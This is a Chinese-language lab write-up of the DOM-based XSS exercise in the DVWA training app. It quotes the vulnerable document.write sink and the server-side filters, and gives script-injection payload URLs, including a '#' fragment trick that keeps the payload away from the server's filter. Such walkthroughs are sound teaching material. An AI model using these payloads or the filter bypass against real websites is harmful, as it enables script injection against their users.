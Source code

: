 ```yaml
---
layout: post
title: "DVWA XSS (DOM) (教學用)"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_XSS
author: ""
tags: ['DVWA', 'XSS']
---
```




# DVWA XSS (DOM) (教學用)
###### tags: `DVWA`



## low


```
http://localhost/vulnerabilities/xss_d/?default=English
```


輸入default=11111111111111 可以被渲染
```
http://localhost/vulnerabilities/xss_d/?default=11111111111111
```


### dom 型

* 1資料有可能直接前端渲染
* 2也有可能經過後端過濾，最後在前端渲染


JS 代碼關鍵點。

```javascript
if (document.location.href.indexOf("default=") >= 0) {
    
    var lang = document.location.href.substring(document.location.href.indexOf("default=") + 8);
    
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");

}

```

### 找洞技巧:
快速定位取得get參數關鍵點(其實也可以不用右鍵檢查然後看一下邏輯也可。)
```
location.href.indexOf() 
```



這邊要研究一下
lang  跟 decodeURI(lang) 這兩個輸入點
```javascript=
document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
```

如果你輸入
```htmlembedded=
//default=<

// < 被browser encode 為 %3c
<option value="%3C"> < </option>

    
    
    
//default=%3c
// %3c 已經是url encode過，就不會再encode一次
<option value="%3C"> < </option>
```

最簡單的例子就是你隨便拿一個網頁
```
https://www.urlencoder.org



//加上?page=<<<<<<<<<<<<<<<<<<<<<<<<<<<< 
//按下enter
https://www.urlencoder.org/?page=<<<<<<<<<<<<<<<<<<<<<<<<<<<<





//雖然目前url =https://www.urlencoder.org/?page=<<<<<<<<<<<<<<<<<<<<<<<<<<<<

你拿這個網址copy 到新分頁 會變
https://www.urlencoder.org/?page=%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C%3C
```

lang 會被瀏覽器會自動url encode(不好利用)

但 decodeURI(lang) 幫我們 decode (好利用)




xss alert 一下
```
http://localhost/vulnerabilities/xss_d/?default=<script>alert(1);</script>
```




## medium



找到JS
```javascript=
<script >
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=") + 8);
        document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
        document.write("<option value='' disabled='disabled'>-</option>");
    }

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>"); 
</script>
```

high 既然是跟前面一模一樣。 有古怪???

那就假設，資料走後端，然後過濾更嚴格!

但最後還是要經過JS前端渲染，所以利用點可以使用 html 錨點。



### html 錨點的
https://stackoverflow.com/questions/7909969/what-is-the-symbol-in-the-url

簡單來講，就是會跳到設定好的段落

概念: 網頁自動定為到段落1
```
http://123.com#段落1
```


### 現在我們知道 #號 後面可以加東西。

* 他還有一個最強的特性，#號後面的東西不會送到後端。

結合知識，我們的payload 大概可以長這樣 payload測試 可以成功。
```
http://localhost/vulnerabilities/xss_d/?default=#<script>alert(1);</script>
```

### 但是還沒結束，我們還沒黑合測試過濾機制。

不成功payload
```
http://localhost/vulnerabilities/xss_d/?default=111111111

http://localhost/vulnerabilities/xss_d/?default=<input/>
```

### 你也可以拿 payload 表去爆破

但經過測試只有這幾個可以成功，所以基本上是白名單了。

```
English
French
Spanish
German
```


### 看一下後端白名單:

```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```


## impossible 

### 作者給了一句話，就沒了(前端防禦沒屁用)
#### Don't need to do anything, protction handled on the client side





## 後記

衝著這段，我就想知道 < 轉碼的過程
```php=

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```




由於 輸入 < 老是被轉成 %3c 

起初以為是瀏覽器轉的，直到我用Burp suite 把 %3c 強迫改 <
發現沒有變化，所以 %3c 就是 <
遇到特殊字本身就是轉成編碼。




